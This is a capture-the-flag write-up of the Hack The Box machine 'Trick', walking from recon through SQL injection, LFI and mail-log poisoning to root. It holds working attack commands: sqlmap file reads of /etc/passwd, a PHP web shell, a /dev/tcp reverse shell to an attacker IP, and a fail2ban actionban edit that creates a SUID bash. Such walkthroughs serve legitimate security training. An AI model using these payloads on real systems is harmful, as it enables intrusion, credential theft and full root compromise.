<h1>HTB: Trick</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Trick)        |
| Difficulty | Easy                                                             |
| OS         | Linux                                                            |
| Author     | ByteFragment                                                     |
| Date       | July 3rd  2026                                                   |

--- 

<h2>Reconnaissance</h2>

<h3>NMAP</h3>

Port scanning the target using nmap via the command:

```
sudo nmap -sT -sV -T4 10.129.227.180 -oN nmap
```

This gave me the open tcp ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results we can see that the target machine is running an ssh server on port 22 using `OpenSSH 7.9p1`, an SMTP server on port 25, A domain service on 53 and then an http server on port 80 running `nginx 1.14.2` :

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-03 18:44 -0700
Nmap scan report for 10.129.227.180
Host is up (0.093s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp open  smtp?
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
80/tcp open  http    nginx 1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We can additionally confirm that the target machine is running linux.

<h3>Web Recon</h3>

Visiting the target ip on port 80 using firefox we see the website homepage with text saying "Our Website is Coming Soon" along with a form filed to enter in an email address:


Entering in a test email we can see that the form is not actually implemented as it needs to be activated.


<h2>Enumeration</h2>

Since we know that the target system is running a DNS service on port 53 we can query this service using the `Dig` command.

<h3>Dig</h3>

Looking at the man page for `dig` it states that to specify a specific DNS server we simply add a `@` in front of the DNS server ip followed by the subject of our query. In this case since we are doing a `reverse DNS lookup` ie querying for an ip address instead of a domain name such as example.com, we will include the `-x` flag:

```
dig @10.129.227.180 -x 10.129.227.180

; <<>> DiG 9.20.23-1-Debian <<>> @10.129.227.180 -x 10.129.227.180
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 65001
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 06cd55c1bd18c360532613fb6a486e383a76fc7488156227 (good)
;; QUESTION SECTION:
;180.227.129.10.in-addr.arpa.   IN      PTR

;; ANSWER SECTION:
180.227.129.10.in-addr.arpa. 604800 IN  PTR     trick.htb.

;; AUTHORITY SECTION:
227.129.10.in-addr.arpa. 604800 IN      NS      trick.htb.

;; ADDITIONAL SECTION:
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1

;; Query time: 96 msec
;; SERVER: 10.129.227.180#53(10.129.227.180) (UDP)
;; WHEN: Fri Jul 03 19:21:43 PDT 2026
;; MSG SIZE  rcvd: 165

```

From this we can see that the IP address 10.129.227.180 resolves to the hostname `trick.htb`. Lets add this to out `/etc/hosts` file on our attack machine:

```
127.0.0.1       localhost
127.0.1.1       kali.kali       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.129.227.180 trick.htb
```

Now when when we enter `trick.htb` into out web browser we are taken to the website we saw in the `Web Recon` section.

Lets attempt to find and subdomains of the `trick.htb` domain again using `dig` but this time we will conduct what's known as a [Zone Transfer](https://jumpcloud.com/it-index/what-is-dns-zone-transfer). We will do this using the command:

```
dig axfr @10.129.227.180 trick.htb
```

From this we get the results:

```
; <<>> DiG 9.20.23-1-Debian <<>> axfr @10.129.227.180 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 88 msec
;; SERVER: 10.129.227.180#53(10.129.227.180) (TCP)
;; WHEN: Fri Jul 03 19:59:09 PDT 2026
;; XFR size: 6 records (messages 1, bytes 231)
```

Here we can see there is a CNAME record for `preprod-payroll.trick.htb` so lets add that to our `/etc/hosts` file as well.

<h3>Web Recon</h3>

Visiting this url we a greeted with a login pay for what we can assume us a payroll site:


We can confirm this by looking at the pages source code:



<h2>Exploitation</h2>

Doing some basic probing of the login form we find that adding a `'` into the username or password field returns an error indicating that there is an sql injection vulnerability we may be able to exploit:



<h3>SQLMap</h3>

From the browser utils we can also see that the login POST request is sent to `http://preprod-payroll.trick.htb/ajax.php?action=login`.

We will use the automated tool `SQLMap` to exploit this login form using the command:

```
sqlmap 'http://preprod-payroll.trick.htb/ajax.php?action=login' --data 'username=User&password=Pass' -p username --batch
```

After the command has finished we can see that the "POST parameter 'username' is vulnerable" to a time based blind injection attack:



Using SQLMap we can also determine what privileges the database user has by simply adding the `--privileges` option to the command:



We can see from the results that the user has `FILE` privileges which "allows users to read and write files on the server's filesystem through SQL commands" - [Science & Design](https://scidsg.medium.com/hush-line-security-spotlight-restricting-the-file-privilege-in-mysql-and-mariadb-ff6773337982)

Lets use test this by trying to read the `/etc/passwd` file on the target machine. SQLMap again has an option for this, `--file-read` which we can use, specifying the /etc/passwd file as the file we want to read:

```
sqlmap 'http://preprod-payroll.trick.htb/ajax.php?action=login' --data 'username=User&password=Pass' -p username --batch --file-read=/etc/passwd
```

Running the command successfully reads the `/etc/passwd` file and writes it to `'/home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd`. Lets use the `less` command to read it:



From this we can see that the user `michael` exists on the target machine.

Lets try and see that other vhosts are running on the target machine. We can do this by viewing the the `/etc/nginx/sites-enabled/default` file. This file is how Nginx knows which config files to load ([funwithlinux blog](https://www.funwithlinux.net/blog/multiple-websites-on-nginx-sites-available/))

We will just reuse the previous command but instead of `/etc/passwd` we will specify `/etc/nginx/sites-enabled/default`: 

```
sqlmap 'http://preprod-payroll.trick.htb/ajax.php?action=login' --data 'username=User&password=Pass' -p username --batch --file-read=/etc/nginx/sites-enabled/default 
```

We can again view the file that SQLMap writes the results to using less and we can see that there is indeed another vhost running on the target machine `preprod-marketing.trick.htb` :



So lets add that to our `/etc/hosts` file and view the website:
<h2>Enumeraion</h2>

<h3>Web Recon</h3>


If we navigate to any of the given pages such as services we see that the url changes to `http://preprod-marketing.trick.htb/index.php?page=services.html`.

This looks like we may be able to exploit a Local File Inclusion vulnerability!

<h2>Exploitation</h2>

<h3>Local File Inclusion</h3>

We can do an initial test by adding a `../` in front of the `services.html` and see if we get an error. 

This unfortunately does not result in an error but that does not inherently mean there is not a vulnerability as many websites filter out `../` in order to stop LFI attacks.

So we can attempt to get around this by using `....//` as it may only remove the initial `../` leaving the remaining characters.

This results in a blank screen indicating that we were successful!

Lets again confirm this by attempting to read `/etc/passwd` using the url `http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//etc/passwd` :



We successfully used LFI to view the /etc/passwd file!

<b>But how do we use this to gain access to the system?</b>

<h2>Foothold</h2>

Looking back at our nmap scan we see the target machine is also running an SMTP mail service. Linux stores mail in the `/var/mail` directory so if we can send an email that contains php code and then access it using our LFI exploitation we can potentially achieve remote code execution. 

Fortunately we also know that the the user `michael` is present on the target machine meaning we can try and send the mail to him. Here is a helpful resource on how to do this - [Linux Journal](https://www.linuxjournal.com/content/sending-email-netcat) 

<h3>Swaks</h3>

To do this we must first confirm we can view the mail we send by sending a test message using [swaks](https://github.com/jetmore/swaks) which is a command line utility for sending emails using SMTP.

We can sent the mail using the command:
```
swaks --to michael --from test --header "Subject: testing" --body "message" --server trick.htb
```


Now lets attempt to view the mail by going to `http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//var/mail/michael`:



From this we can see that we are able to successfully send and access mail on the target machine. Now lets use this to gain a reverse shell.

Now lets replace the message body with `--body '<?php system($_REQUEST["cmd"]); ?>"`, which will allow us to execute commands by adding `&cmd=` to the end of the url when we access it using the LFI vulnerability.

We will be using this to gain a reverse shell so we will first need to set up a nc listener using the command:

```
nc -lvnp 1234
```

and then we can use the LFI vulnerability to run the command:

```
bash -c 'bash -i > /dev/tcp/10.10.15.16/443 0>&1'
```

However we need to first `URL Encode` it which we can do using the online tool `cyberchef`:



After visiting `http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//var/mail/michael&cmd=bash%20%2Dc%20%27bash%20%2Di%20%3E%20%2Fdev%2Ftcp%2F10%2E10%2E15%2E16%2F443%200%3E%261%27`

We check our nc listener to see we do indeed have a reverse shell connection!



It is here we can find the user flag.

<h2>Escalation</h2>

Again looking back at our nmap scan we see that the target machine is running an ssh service. Since we are running our rev shell as michael we can access his `id_rsa` ssh key allowing us to gain a more stable ssh connection:



Now we can copy that into a file and change the file permissions to 600 and ssh into the target machine:



Using the command `sudo -l` we can see all the commands that the michael user can run as sudo:



<h3>Fail2Ban</h3>

Michael can run `/etc/init.d/fail2ban restart` as sudo with no passwd.

So lets look at `/etc/fail2ban`:



Here we can see that the `action.d` directory belongs to the group `security` which we are also a member of so lets explore this further.

Listing the contents of the `action.d` directory we see that it contains a series of `.conf` configuration files:



Here is a great resource on using `Fail2Ban` to escalate privileges - [juggernaut-sec](https://juggernaut-sec.com/fail2ban-lpe/)

We are particularly interested in the `iptables-multiport.conf` file as we are going to alter its contents.

Specifically we are going to alter the action that is taken when a user is banned. We are going to alter the `actionban = ` line in the file to:

```
actionban = cp /bin/bash /tmp && chmod 4755 /tmp/bash 
```

Before we do this we need to create a new version of the file with out user / group so that we can actually edit it. This is as simple as running two commands:

```
michael@trick:/etc/fail2ban/action.d$ mv iptables-multiport.conf .old
michael@trick:/etc/fail2ban/action.d$ cp .old iptables-multiport.conf

```

This actionban creates our own copy of the bash binary in the /tmp directory and gives it SUID permissions so that it will be executed with the privileges of the file's owner which will be root. This is because when we run the Fail2Ban restart command as sudo and then initiate a user ban this file will be created by root not the user michael.

We can now restart the Fail2ban service by running the command:

```
sudo /etc/init.d/fail2ban restart
```

Now we need to somehow initiate a ban. This is actually really simple as we just need to fail to login a large amount of times. We can do this using `hydra`

<h3>Hydra</h3>

To create a series of failed logins we can run the command:

```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.129.30.70
```

After hydra runs for a bit we can check the /tmp directory and confirm the presence of a bash binary:



We can now run that bash binary and drop into a root shell with the command:

```
/tmp/bash -p
```



The root flag can then be found in the /root directory thus solving the challenge!

